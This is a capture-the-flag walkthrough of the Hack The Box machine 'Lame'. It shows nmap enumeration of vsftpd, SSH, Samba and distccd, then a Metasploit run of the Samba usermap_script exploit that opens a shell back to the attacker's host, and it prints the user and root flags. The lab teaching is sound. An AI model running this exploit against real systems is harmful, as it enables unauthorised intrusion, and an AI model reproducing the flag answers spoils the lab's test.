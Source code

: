 # Lame

## 1. Overview

### 1.1. Attacks

* 

### 1.2. Tools used

**Enumeration** &rarr; ``.

**Exploitation** &rarr; ``.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap
Search with `nmap`:

```bash
nmap -A -p- -T4 10.10.10.3
```

##### 2.1.1.1. Ports

![Lame Ports](_v_images/20201003212147744_9896.png)

* **Port: 21 (ftp)** &rarr; vsftpd 2.3.4
* **Port: 22 (ssh)** &rarr; Open SSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
* **Port: 139 (netbios-ssn)** &rarr; Samba smbd 3.X - 4.X
* **Port: 445 (netbios-ssn)** &rarr; Samba smbd 3.0.20-Debian
* **Port: 3632 (distccd)** &rarr; distccd v1

##### 2.1.1.2. Host Details

![Lame Host Details](_v_images/20201003212552432_15255.png)
![Lame Host Script Results](_v_images/20201003212621286_30855.png)

* **OS** &rarr; Linux 2.6.30 / Unix (Samba 3.0.20-Debian)
* **Computer name** &rarr; Lame
* **Smb-Security-Mode**
    * **Message_Signing** &rarr; disabled

Samba looks exploitable.

### 2.2. Exploitation

#### 2.2.1. Sources

**Google:** `samba Unix (Samba 3.0.20-Debian) exploit`

[[Rapid7] Samba "username map script" Command Execution ](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)

#### 2.2.2. Metasploit

```msf
msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf5 exploit(multi/samba/usermap_script) > run
```

```bash
cat root/root.txt
92caac3be140ef409e45721348a4e9df

cat home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```

* **Own User** &rarr; `69454a937d94f5f0225ea00acd2e84c5`
* **Own Root** &rarr; `92caac3be140ef409e45721348a4e9df`